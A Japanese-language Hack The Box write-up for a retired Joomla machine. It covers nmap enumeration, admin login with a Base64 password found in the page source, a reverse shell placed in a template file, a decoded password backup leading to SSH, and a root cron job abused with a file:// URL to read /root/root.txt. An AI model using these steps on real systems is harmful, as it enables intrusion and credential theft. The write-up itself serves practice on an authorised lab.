










「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ

- [探索](#探索)
- [内部探索](#内部探索)
- [特権昇格](#特権昇格)
- [まとめ](#まとめ)

## 探索

とりあえずいつも通り探索します。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.150 targethost.htb/g' /etc/hosts
$ nmap -sV -sC -Pn -T4 targethost.htb| tee nmap1.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.61 seconds
```

80番が開いてたのでアクセスしてみましたが、何やらCMSのような見た目です。



以下を参考に色々探索したものの侵入可能な穴は見つかりませんでした。

参考：[Attacking and Enumerating Joomla | HackerTarget.com](https://hackertarget.com/attacking-enumerating-joomla/)

そこで、ページのソースを読んだところ、以下のようにsecret.txtが埋まっていることがわかりました。



実際にここにアクセスして見ると、怪しげな文字列が埋まっています。



このままだとよくわからなかったのでMagicにかけてみたところ、パスワードっぽいBase64文字列であることがわかりました。



ここで、ログインフォームに記事内のユーザ名とパスワードを入力することでログインに成功しました。

あとは、以下の記事と同じく、テンプレートのphpファイルにリバースシェルを埋め込んだところ、シェルの取得に成功しました。

参考：[Joomla: Reverse Shell - Hacking Articles](https://www.hackingarticles.in/joomla-reverse-shell/)



## 内部探索

よわよわ権限なので、ここから権限昇格を目指します。

user.txtには権限がありませんでしたが、なぜかpassword_backupというファイルは読むことができました。



開いて見るとhexdump形式のバイナリがテキストファイルとしてほぞんされているようです。



これもmagicにかけてみたところ、Bzip2で復号できました。



とはいえこの結果が何なのかよくわからない。。



From hexdumpでバイナリファイルとしてダウンロードしてみたところ、tarアーカイブであることがわかったので展開してみたところ、Florisのパスワードが取得でき、userフラグを取得できました。

``` bash
$ tar xvf download.tar 
password.txt

$ cat password.txt 
5d<wdCbdZu)|hChXll
```

このパスワードを使うことでSSHでログインできるようになったので、以降はSSHで進めていきます。

## 特権昇格

とりあえずlinpeasを送り込んで探索をしてみます。

``` bash
$ scp /home/kali/Hacking/Tools/linpeas.sh floris@targethost.htb:/home/floris

$ ./linpeas.sh tee lipeas.txt
```

この辺のファイルの所有者がrootになっているようです。



linpeasの結果を見ると、`Modified interesting files in the last 5mins`の中にもこれらのファイルが含まれていました。

何かしらのroot関連のjobが動いていそうです。

何のプロセスに触られているかは特定できなかったものの、試しにinputのアドレスを改変して`url = "http://10.10.14.4:5000"`としたところ、自分のローカルマシンに接続されました。

ここで少し悩んだのですが、単純にURLにroot権限でアクセス可能なら、URIスキームをfileに変更すれば任意のファイルが取れそうだということに気づきました。

そこで、以下のような宛先をinputに埋め込んだところ、rootフラグが取得できました。

``` bash
$ echo 'url = "file:///root/root.txt"' > input
```

## まとめ

最初の探索で手間取ったものの、全体的には簡単な問題でした。